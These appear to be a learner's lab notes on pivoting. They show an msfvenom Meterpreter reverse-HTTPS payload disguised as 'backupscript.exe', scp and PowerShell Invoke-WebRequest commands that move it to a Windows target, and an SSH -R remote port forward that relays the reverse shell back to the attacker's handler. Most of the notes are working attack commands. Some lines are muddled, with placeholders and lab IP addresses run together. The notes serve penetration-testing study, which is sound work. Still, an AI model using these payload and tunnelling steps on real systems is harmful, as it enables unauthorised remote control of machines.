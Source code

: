 

when we want reverse shell from pivot host

![[image 30.png]]

Create payload with msfvenom


```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> 172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```


use multi/handler

![[image 31.png]]

transfer payload to victim (target host)

```bash
scp backupscript.exe ubuntu@<ipAddressofTarget>10.129.145.80:~/
```

Downloading Payload to Windows Target from victim host

![[image 32.png]]

```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```


### Host discovery/ping sweep

![[image 33.png]]

## Using SSH -R

Once we have our payload downloaded on the Windows host, we will use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use -vN argument in our SSH command to make it verbose and ask it not to prompt the login shell. The -R command asks the Ubuntu server to listen on :8080 and forward all incoming connections on port 8080 to our msfconsole listener on 0.0.0.0:8000 of our attack host

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
        172.16.5.129      payload port  multi/handler port 10.29.145.80
```

![[image 34.png]]

![[image 35.png]]

## Final reverse shell

![[image 36.png]]


# Q. why we create payload? I got shell without executing it, just using SSH -R
